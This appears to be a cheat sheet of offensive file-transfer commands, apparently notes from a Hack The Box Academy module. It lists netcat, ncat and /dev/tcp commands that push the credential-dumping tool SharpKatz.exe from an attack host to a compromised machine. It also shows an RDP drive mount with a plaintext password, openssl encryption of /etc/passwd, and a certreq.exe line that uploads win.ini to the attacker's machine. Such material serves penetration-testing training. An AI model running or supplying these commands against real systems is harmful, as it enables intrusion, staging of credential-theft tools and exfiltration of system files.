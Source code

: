 | `------------------------------------------------------------------------------------------------------------------------` | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

| `**File Transfer with Netcat and Ncat**` |  |

| ``nc -l -p 8000 > SharpKatz.exe`` | NetCat - Compromised Machine - Listening on Port 8000 |

| ``ncat -l -p 8000 --recv-only > SharpKatz.exe`` | Ncat - Compromised Machine - Listening on Port 8000 |

| ``nc -q 0 192.168.49.128 8000 < SharpKatz.exe`` | Netcat - Attack Host - Sending File to Compromised machine |

| ``ncat --send-only 192.168.49.128 8000 < SharpKatz.exe`` | Ncat - Attack Host - Sending File to Compromised machine |

| ``sudo nc -l -p 443 -q 0 < SharpKatz.exe`` | Attack Host - Sending File as Input to Netcat |

| ``nc 192.168.49.128 443 > SharpKatz.exe`` | Compromised Machine Connect to Netcat to Receive the File |

| ``sudo ncat -l -p 443 --send-only < SharpKatz.exe`` | Attack Host - Sending File as Input to Ncat |

| ``ncat 192.168.49.128 443 --recv-only > SharpKatz.exe`` | Compromised Machine Connect to Ncat to Receive the File |

| ``cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe`` | If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file /dev/TCP/, Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File |

| `[PowerShell Session File Transfer](https://academy.hackthebox.com/module/24/section/161)` |  |

| `**RDP**` |  |

| ``xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`` | Mounting a Linux Folder Using xfreerdp- To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session. |

| `---------------------------------------------------------------------------------` | -------------------------------------------- |

| `**File Encryption on Windows**` |  |

| ``Import-Module .\Invoke-AESEncryption.ps1`` | Import Module Invoke-AESEncryption.ps1 -PWSH |

| ``Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt`` | File Encryption Example -PWSH |

| `**File Encryption on Linux**` |  |

| ``openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc`` | Encrypting /etc/passwd with openssl |

| ``openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd`` | Decrypt passwd.enc with openssl |

| `----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------` | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

| ``certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini`` | Upload win.ini to our Pwnbox -CMD |
